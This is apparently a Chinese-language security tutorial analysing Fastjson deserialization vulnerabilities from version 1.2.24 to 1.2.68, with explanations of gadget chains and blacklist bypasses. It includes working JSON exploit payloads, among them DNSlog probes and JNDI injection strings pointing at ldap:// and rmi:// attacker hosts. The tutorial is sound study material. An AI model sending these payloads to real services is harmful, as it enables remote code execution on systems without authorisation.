







---
tags:
    - Web Sec
    - Java
comments: true
---
# Fastjson 反序列化漏洞


Fastjson 是阿里巴巴的开源 JSON 解析库，它可以解析 JSON 格式的字符串，支持将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列化到 JavaBean，Fastjson不但性能好而且API简单易用，所以用户基数巨大，一旦爆出漏洞其影响对于使用了Fastjson的Web应用来说是毁灭性的。

## Fastjson 简介

主要序列化和反序列化方法

- JSON.toJSONString 将 Java 对象转换为 json 对象，序列化的过程。
- JSON.parseObject/JSON.parse 将 json 对象重新变回 Java 对象；反序列化的过程

=== "User"

    ```java
    public class user {
        public String username;
        public String password;

        public user(String username, String password) {
            this.username = username;
            this.password = password;
        }

        public String getUsername() {
            return username;
        }

        public void setUsername(String username) {
            this.username = username;
        }

        public String getPassword() {
            return password;
        }

        public void setPassword(String password) {
            this.password = password;
        }
    }
    ```
=== "Fastjson"

    ```java
    package cc.fastjson;

    import com.alibaba.fastjson.JSON;
    import com.alibaba.fastjson.serializer.SerializerFeature;

    public class Fastjson {
        public static void main(String[] args) {
            user user = new user("Bob", "123.com");

            //序列化方式--指定类和不指定类
            String json1 = JSON.toJSONString(user);
            System.out.println(json1);//{"password":"123.com","username":"Aur0ra.sec"}
            String json2 = JSON.toJSONString(user, SerializerFeature.WriteClassName);
            System.out.println(json2);//{"@type":"com.aur0ra.sec.fastjson.User","password":"123.com","username":"Aur0ra.sec"}


            //反序列化
            //默认解析为JSONObject
            System.out.println(JSON.parse(json1));      //{"password":"123.com","username":"Bob"}
            System.out.println(JSON.parse(json1).getClass().getName());    //com.alibaba.fastjson.JSONObject

            //依据序列化中的@type进行自动反序列化成目标对象类型
            System.out.println(JSON.parse(json2));      //com.aur0ra.sec.fastjson.user@24b1d79b
            System.out.println(JSON.parse(json2).getClass().getName()); //com.aur0ra.sec.fastjson.user

            //手动指定type，反序列化成目标对象类型
            System.out.println(JSON.parseObject(json1, user.class)); //com.aur0ra.sec.fastjson.user@68ceda24
            System.out.println(JSON.parseObject(json1, user.class).getClass().getName()); //com.aur0ra.sec.fastjson.user

        }
    }
    ```

一些值得注意的点：

1. `JSON.toJSONString`进行序列化时，可以设置将对象的类型也作为序列化的内容
2. 当对字符串进行反序列化操作时
    - 序列化字符串中有@type则会按照该类型进行反序列化操作
    - 没有@type默认返回JSONObject对象（一种字典类型数据存储）
    - 没有@type，但又想反序列化成指定的类对象时，需要通过`JSON.parseObject()`同时传入该类的class对象，才能反序列成指定的对象。
    -  `JSON.parse(jsonString)` 和 `JSON.parseObject(jsonString, Target.class)`，两者调用链一致
3. 反序列化的对象必须具有默认的无参构造器和get|set方法，反序列化的底层实现就是通过无参构造器和get .set方法进行的，具体检查逻辑在 `com.alibaba.fastjson.util.JavaBeanInfo.build()` 中。
4. 如果目标类中私有变量没有 setter 方法，但是在反序列化时仍想给这个变量赋值，则需要使用 `Feature.SupportNonPublicField` 参数。
5. fastjson 在为类属性寻找 get/set 方法时，调用函数 `com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#smartMatch()` 会忽略名称中的 `_|-` , 1.2.36 版本及后续版本还可以支持同时使用 _ 和 - 进行组合混淆。
6. fastjson 在反序列化时，如果 Field 类型为 byte[]，将会调用`com.alibaba.fastjson.parser.JSONScanner#bytesValue` 进行 base64 解码

## 漏洞分析

在对渗透点判断是否存在fastjson反序列化时，可以利用dnslog进行漏洞验证

```java
// 目前最新版1.2.72版本可以使用1.2.36 < fastjson <= 1.2.72
String payload = "{{\"@type\":\"java.net.URL\",\"val\"" +":\"http://xx.dnslog.cn\"}:\"summer\"}";

// 全版本支持 fastjson <= 1.2.72
String payload1 = "{\"@type\":\"java.net.Inet4Address\",\"val\":\"zf7tbu.dnslog.cn\"}";
String payload2 = "{\"@type\":\"java.net.Inet6Address\",\"val\":\"zf7tbu.dnslog.cn\"}";
```

### 1.2.24

在2017年3月15日，fastjson官方主动爆出在 1.2.24 及之前版本存在远程代码执行高危安全漏洞

**TemplatesImpl 反序列化**

TemplatesImpl 类位于`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`，实现了 `Serializable` 接口，因此它可以被序列化，我们来看一下漏洞触发点。

注意到该类中存在一个成员属性 `_class`，是一个 Class 类型的数组，数组里下标为`_transletIndex` 的类会在 `getTransletInstance()` 方法中使用 `newInstance()` 实例化。

{loading="lazy"}

而类成员变量 `_outputProperties` 的 getter 方法 `getOutputProperties()` 方法调用了 `newTransformer()` 方法，而 `newTransformer()` 又调用了 `getTransletInstance()` 方法。

{loading="lazy"}

{loading="lazy"}

如果可以控制`_class`数组中的类，那么就可以在`getTransletInstance()` 方法中实例化任意类，从而实现远程代码执行。

{loading="lazy"}

寻找发现在defineClass()方法中会加载 bytecode，只需控制 _name 不为 null, _tfactory 不为 null, 同时为了使部分没有构造方法的私有变量被我们控制，需要在 `JSON.parseObject` 时使用 `Feature.SupportNonPublicField` 参数。



```json title="exp"
{
    "@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    "_bytecodes": ["yv66vgAAADQA...CJAAk="],
    "_name": "su18",
    "_tfactory": {},
    "_outputProperties": {},
}
```

**JdbcRowSetImpl 反序列化**

JdbcRowSetImpl 类位于 `com.sun.rowset.JdbcRowSetImpl` ，这条漏洞利用链是 `javax.naming.InitialContext#lookup()` 参数可控导致的 JNDI 注入。其中`setAutoCommit()` 方法在 `this.conn` 为空时，将会调用 `this.connect()` 方法。

{loading="lazy"}

方法里调用了 `javax.naming.InitialContext#lookup()` 方法，参数从成员变量 `dataSource` 中获取。

{loading="lazy"}

因此exp为

```json
{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"ldap://127.0.0.1:8888/RCE",
    "autoCommit":true
}
```

### 1.2.25

在版本 1.2.25 中，官方对之前的反序列化漏洞进行了修复，引入了 checkAutoType 安全机制，默认情况下 autoTypeSupport 关闭，不能直接反序列化任意类，而打开 AutoType 之后，是基于内置黑名单来实现安全的，fastjson 也提供了添加黑名单的接口。

然而在`loadClass` 类在加载目标类之前为了兼容带有描述符的类名，使用了递归调用来处理描述符中的 `[`、`L`、`;` 字符，并最终会在反序列化时忽略掉描述符。因此可以通过在类名前加上`[`、`L`、`;` 来绕过黑名单。（要求开启autoType）

```json title="exp"
{
    "@type":"[com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"ldap://127.0.0.1:8888/RCE",
    "autoCommit":true
}
```

### 1.2.42

1.2.42 版本新增了校验机制，如果输入类名的开头和结尾是l和;就将头和尾去掉，再进行黑名单验证。

所以绕过需要在类名外部嵌套两层描述符即可。

### 1.2.45

在先前的版本修复了对字符串的检查，因此字符串绕过无法使用。

Fastjson 1.2.45被爆出存在黑名单绕过

利用条件
1. 目标服务端存在mybatis的jar包。
2. 版本需为 3.x.x ～ 3.5.0
3. autoTypeSupport属性为true才能使用。（fastjson >= 1.2.25默认为false）

```json title="exp"
{
    "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties":{
        "data_source":"ldap://127.0.0.1:8888/RCE"
    }
}
```

### 1.2.47

由于loadClass中默认cache设置为true，因此可以使用`java.lang.CLass`把获取到的类缓存到mapping中，然后从缓存中获取`com.sun.rowset.JdbcRowSetlmpl`类，绕过黑名单机制。该漏洞利用无需开启autoType。

```json title="exp"
{
    "a": {
          "@type": "java.lang.Class",
          "val": "com.sun.rowset.JdbcRowSetImpl"
      },
    "b": {
          "@type": "com.sun.rowset.JdbcRowSetImpl",
          "dataSourceName": "rmi://x.x.x.x:1098/jndi",
          "autoCommit": true
    } 
}
```

### 1.2.68

在 `checkAutoType()` 函数中有这样的逻辑：如果函数有 `expectClass` 入参，且我们传入的类名是 `expectClass` 的子类或实现，并且不在黑名单中，就可以通过 `checkAutoType()` 的安全检测。

参考[fastjson1.2.68链](https://www.buaq.net/go-82366.html){target=_blank}

## 参考资料

[Fastjson 反序列化漏洞](https://www.javasec.org/java-vuls/FastJson.html){target=_blank}
